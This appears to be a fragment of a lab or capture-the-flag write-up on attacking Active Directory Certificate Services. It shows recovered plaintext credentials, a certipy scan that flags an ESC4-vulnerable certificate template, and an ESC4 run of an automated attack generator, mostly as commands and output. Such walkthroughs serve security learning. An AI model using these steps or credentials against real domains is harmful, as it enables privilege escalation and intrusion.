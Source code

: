 ![alt text](<../assets/images/5 (1).png>)

    we got creds

    C:\WINDOWS\helpdesk.exe -u clifford.davey -p RFmoB2WplgE_3p -k netsvcs
    User        : LocalSystem
    StartMode   : Automatic

### certipy part
    ➜  certipy certipy-ad find -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.10.65.237 -vulnerable -enabled
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Finding certificate templates
    [*] Found 34 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 12 enabled certificate templates
    [*] Trying to get CA configuration for 'sendai-DC-CA' via CSRA
    [!] Got error while trying to get CA configuration for 'sendai-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
    [*] Trying to get CA configuration for 'sendai-DC-CA' via RRP
    [!] Failed to connect to remote registry. Service should be starting now. Trying again...
    [*] Got CA configuration for 'sendai-DC-CA'
    [*] Saved BloodHound data to '20250113174809_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
    [*] Saved text output to '20250113174809_Certipy.txt'
    [*] Saved JSON output to '20250113174809_Certipy.json'

### ESC4

before start 

    {
    "Certificate Authorities": {
        "0": {
        "CA Name": "sendai-DC-CA",
    "Certificate Templates": {
        "0": {
        "Template Name": "SendaiComputer",
        "Display Name": "SendaiComputer",
        "Certificate Authorities": [
            "sendai-DC-CA"
        },
        "[!] Vulnerabilities": {
            "ESC4": "'SENDAI.VL\\\\ca-operators' has dangerous permissions"
      
https://github.com/lineeralgebra/autoADCS

    ➜  autoADCS git:(main) python3 autoadcs.py 
    === ADCS Attack Command Generator ===
    Choose an attack vector:
    1. ESC1
    3. ESC3
    4. ESC4
    6. ESC6
    7. ESC7
    8. ESC8
    9. ESC9
    11. ESC11
    13. ESC13
    Enter your choice (1 or 3 or 4 or 7 or 8 or 9 or 11 or 13): 4
    Enter username: clifford.davey
    Enter domain: sendai.vl
    Enter password: RFmoB2WplgE_3p
    Enter template: SendaiComputer